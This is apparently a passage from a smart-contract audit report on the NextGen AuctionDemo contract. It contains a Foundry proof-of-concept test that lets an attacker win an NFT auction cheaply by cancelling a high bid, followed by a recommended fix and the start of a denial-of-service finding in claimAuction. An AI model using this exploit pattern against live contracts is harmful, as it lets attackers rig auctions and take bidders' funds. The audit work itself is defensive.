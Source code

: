     function test_exploit() public payable {
        vm.deal(attacker, 100.1 ether);
        // Attacker puts two bids - one on a very low price and the second on a very high price
        vm.startPrank(attacker);
        auction.participateToAuction{value: 0.1 ether}(tokenId);
        auction.participateToAuction{value: 100.0 ether}(tokenId);
        vm.stopPrank();

        vm.deal(user, 0.2 ether);
        vm.prank(user);
        // User's bids with resealable prices are reverted
        vm.expectRevert();
        auction.participateToAuction{value: 0.2 ether}(tokenId);

        uint256 endTime = nextGenMinterContract.getAuctionEndTime(tokenId);
        vm.warp(endTime);

        vm.startPrank(attacker);
        // Attacker cancels own 'high' bid and wins auction using 'low' bid
        auction.cancelBid(tokenId, 1);
        auction.claimAuction(tokenId);
        vm.stopPrank();
        // Attacker won an auction spending a much lower amount of eth
        assertGe(attacker.balance, 100 ether);
    }
}
```
This test requires a Base.t.sol file: https://gist.github.com/sashik-eth/accf61913418dddc86d94ff5ae6fe9bd

## Recommended Mitigation Steps
Consider allowing to place new bids even if they are lower than the current highest bid. This would guarantee that when the highest bidder cancels their bid closer to the auction ending NFT would be selling for a reasonable price.

## [H-03]  Any bidder could cause DOS in auctionDemo#claimAuction

## Vulnerability details

```auctionDemo#claimAuction``` is called by the auction winner or admin when the auction is ended. This function sents NFT token to the winner's address, the winning bid to the previous owner of NFT and refunds all bidders that do not win an auction:

```
File: AuctionDemo.sol
104:     function claimAuction(uint256 _tokenid) public WinnerOrAdminRequired(_tokenid,this.claimAuction.selector){
105:         require(block.timestamp >= minter.getAuctionEndTime(_tokenid) && auctionClaim[_tokenid] == false && minter.getAuctionStatus(_tokenid) == true);
106:         auctionClaim[_tokenid] = true;
107:         uint256 highestBid = returnHighestBid(_tokenid);
108:         address ownerOfToken = IERC721(gencore).ownerOf(_tokenid);
109:         address highestBidder = returnHighestBidder(_tokenid);
110:         for (uint256 i=0; i< auctionInfoData[_tokenid].length; i ++) {
111:             if (auctionInfoData[_tokenid][i].bidder == highestBidder && auctionInfoData[_tokenid][i].bid == highestBid && auctionInfoData[_tokenid][i].status == true) {
112:                 IERC721(gencore).safeTransferFrom(ownerOfToken, highestBidder, _tokenid);
113:                 (bool success, ) = payable(owner()).call{value: highestBid}("");
114:                 emit ClaimAuction(owner(), _tokenid, success, highestBid);
115:             } else if (auctionInfoData[_tokenid][i].status == true) {
116:                 (bool success, ) = payable(auctionInfoData[_tokenid][i].bidder).call{value: auctionInfoData[_tokenid][i].bid}("");
117:                 emit Refund(auctionInfoData[_tokenid][i].bidder, _tokenid, success, highestBid);
118:             } else {}
119:         }
120:     }
```
```
